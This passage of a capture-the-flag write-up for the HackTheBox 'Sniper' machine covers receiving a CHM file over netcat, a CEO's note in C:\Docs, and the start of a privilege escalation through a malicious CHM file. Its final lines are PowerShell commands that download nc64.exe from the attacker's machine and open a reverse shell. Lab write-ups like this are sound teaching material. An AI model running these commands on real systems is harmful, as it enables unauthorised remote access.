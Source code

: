 And saved locally like this:

```aaa
baud@kali:~/HTB/sniper$ nc -lvnp 9191 > instructions.chm
listening on [any] 9191 ...
connect to [10.10.14.144] from (UNKNOWN) [10.10.10.151] 49810
baud@kali:~/HTB/sniper$ file instructions.chm 
instructions.chm: MS Windows HtmlHelp Data
```

This is what the file looks like:

![img](/images/writeup-sniper/11.png)

This shitty work Chris is talking about is mentioned in the note.txt file in C:\Docs, where we get to appreciate the relationship between this evil CEO and poor coder Chris:

```aaa
C:\Users\Chris\Downloads>dir /a c:\docs
dir /a c:\docs
 Volume in drive C has no label.
 Volume Serial Number is 6A2B-2640

 Directory of c:\docs

10/01/2019  12:04 PM    <DIR>          .
10/01/2019  12:04 PM    <DIR>          ..
04/11/2019  08:31 AM               285 note.txt
04/11/2019  08:17 AM           552,607 php for dummies-trial.pdf
               2 File(s)        552,892 bytes
               2 Dir(s)  17,930,002,432 bytes free

C:\Users\Chris\Downloads>more c:\docs\note.txt
more c:\docs\note.txt
Hi Chris,
        Your php skillz suck. Contact yamitenshi so that he teaches you how to use it and after that fix the website as there are a lot of bugs on it. And I hope that you've prepared the documentation for our new app. Drop it here when you're done with it.

Regards,
Sniper CEO.

C:\Users\Chris\Downloads>
```

I absolutely love the "PHP for dummies" pdf in the directory just to tease him further on his bad PHP skills. Anyway he mentions dropping the documentation in the Docs folder, probably in CHM format because the file from earlier was supposed to be the Android app documentation.

---

## Privilege Escalation #2: RCE With CHM File

It's obvious that we have to finish Chris' job and make a malicious CHM file that the Administrator will open at one point. 


[localhost]: PS C:\Users\Chris\Documents>
[localhost]: PS C:\Users\Chris\Documents> Invoke-Command -ScriptBlock { IWR http://10.10.14.144/nc64.exe -outfile C:\Users\Chris\Documents\nc64.exe }
[localhost]: PS C:\Users\Chris\Documents> Invoke-Command -ScriptBlock { C:\Users\Chris\Documents\nc64.exe -e cmd.exe 10.10.14.144 9090 }